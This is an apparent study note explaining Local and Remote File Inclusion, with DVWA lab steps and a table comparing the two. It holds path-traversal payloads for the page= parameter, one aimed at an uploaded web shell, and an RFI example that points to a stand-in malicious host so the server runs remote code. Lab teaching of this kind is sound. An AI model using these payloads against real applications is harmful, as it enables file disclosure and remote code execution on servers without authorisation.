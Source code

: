 ### **LFI (Local File Inclusion)**

- **Definition**: LFI is a web vulnerability that occurs when an attacker can include local files (present on the same server) in the application's execution process.
- **How it works**: The vulnerability arises when the application uses user-supplied input to construct file paths without proper validation or sanitization.

**Steps to test LFI:**

1. In the **Damn Vulnerable Web Application (DVWA)**:
    - Navigate to the **File Inclusion** section.
    - Click on any file to observe its name being displayed in the URL (e.g., `file4.php`).
2. Try manipulating the `page=` parameter in the URL by providing file paths:
    - Example 1: `../../hackable/flags/fi.php`
    - Example 2: `../../hackable/uploads/ak47shell.php`

These examples demonstrate LFI as they attempt to include files from the local server's directories.

---

### **RFI (Remote File Inclusion)**

- **Definition**: RFI is a vulnerability that allows an attacker to include files hosted on external servers.
- **How it works**: If the application allows URLs or external file paths as input, the attacker can inject a URL pointing to a malicious script hosted elsewhere.

**Steps to test RFI:**

1. Identify parameters that accept file paths or URLs.
2. Replace them with a remote URL hosting a malicious file or script.

Example: If a parameter like `page=` is vulnerable, injecting a URL like `http://malicious-site.com/malicious-file.php` will include and execute the remote file on the server.

---

### **Key Difference Between LFI and RFI**

|Aspect|LFI (Local File Inclusion)|RFI (Remote File Inclusion)|
|---|---|---|
|**File Location**|Includes files from the server's local system.|Includes files from external, remote sources.|
|**Risk**|Limited to the server's accessible directories.|Expands the attack surface to external threats.|
|**Examples**|`../../file_path` manipulations.|URLs like `http://example.com/malicious.php`.|

---
